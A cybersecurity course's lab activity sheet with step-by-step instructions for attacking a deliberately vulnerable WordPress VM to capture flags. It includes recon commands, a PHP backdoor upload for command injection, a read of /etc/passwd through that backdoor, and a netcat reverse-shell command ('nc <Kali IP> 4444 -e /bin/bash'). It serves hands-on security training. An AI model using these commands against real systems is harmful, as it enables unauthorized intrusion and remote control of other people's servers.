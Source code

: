 ## Activity File: Attacking Target 2 (Optional)


Please note, **attacking Target 2 is not required**. It is included as an additional challenge if you are interested in assessing a more complex web application. Before attempting this challenge, make sure you complete the Wireshark analysis.

Target 2 exposes the same WordPress site as Target 1, but with better security hardening. Therefore, it must be exploited differently than Target 1. 

The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.


### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2.

![netdiscover](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/1NETDISCOVERFORMACHINES.jpg)

2. Use Nmap to document all exposed ports and services at this IP address.

![nmapSS](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/2NMAPSSTARGET2.jpg)

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?
    
![nikto](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/4NIKTOSCAN.jpg)

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
      
      `sudo apt-get install gobuster`
      
      - Run `gobuster -w /path/to/wordlist dir -u <URL>`
      
        
      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...


5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

8. Next, find a flag in the WordPress uploads directory.

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
